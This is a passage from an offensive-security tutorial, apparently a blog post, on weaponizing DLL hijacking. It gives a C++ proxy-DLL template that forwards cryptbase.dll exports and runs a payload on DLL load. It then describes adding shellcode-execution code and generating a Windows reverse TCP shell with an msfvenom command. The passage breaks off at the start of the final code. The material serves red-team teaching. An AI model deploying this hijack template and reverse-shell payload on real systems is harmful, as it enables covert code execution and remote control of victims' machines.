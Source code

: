 #pragma comment(linker,"/export:SystemFunction001=C:\\Windows\\System32\\cryptbase.SystemFunction001,@1")
#pragma comment(linker,"/export:SystemFunction002=C:\\Windows\\System32\\cryptbase.SystemFunction002,@2")
#pragma comment(linker,"/export:SystemFunction003=C:\\Windows\\System32\\cryptbase.SystemFunction003,@3")
#pragma comment(linker,"/export:SystemFunction004=C:\\Windows\\System32\\cryptbase.SystemFunction004,@4")
#pragma comment(linker,"/export:SystemFunction005=C:\\Windows\\System32\\cryptbase.SystemFunction005,@5")
#pragma comment(linker,"/export:SystemFunction028=C:\\Windows\\System32\\cryptbase.SystemFunction028,@6")
#pragma comment(linker,"/export:SystemFunction029=C:\\Windows\\System32\\cryptbase.SystemFunction029,@7")
#pragma comment(linker,"/export:SystemFunction034=C:\\Windows\\System32\\cryptbase.SystemFunction034,@8")
#pragma comment(linker,"/export:SystemFunction036=C:\\Windows\\System32\\cryptbase.SystemFunction036,@9")
#pragma comment(linker,"/export:SystemFunction040=C:\\Windows\\System32\\cryptbase.SystemFunction040,@10")
#pragma comment(linker,"/export:SystemFunction041=C:\\Windows\\System32\\cryptbase.SystemFunction041,@11")

#include <windows.h>

VOID Payload() {
    // Run your payload here.
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Payload();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
Weaponizing the DLL Hijacking
Let's create new CPP DLL project:
During the demo, I am using Visual Studio 2017 on Commando VM.
Now let's tweek the malicious template from spartacus. I created "Offensive CPP" repository, its idea is to host a malicious independent snippets, which can be used in various offensive scenarios. Let's copy some shellcode execution code. During the demo, I am using the "FileMap" snippet (https://github.com/lsecqt/OffensiveCpp/blob/main/Shellcode%20Execution/FileMap/directPointerToFileMap.cpp)
The last step is to generate a shellcode from msfvenom:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=443 -f c
And combine the pieces by compiling the custom DLL as x64/Release:
#pragma once
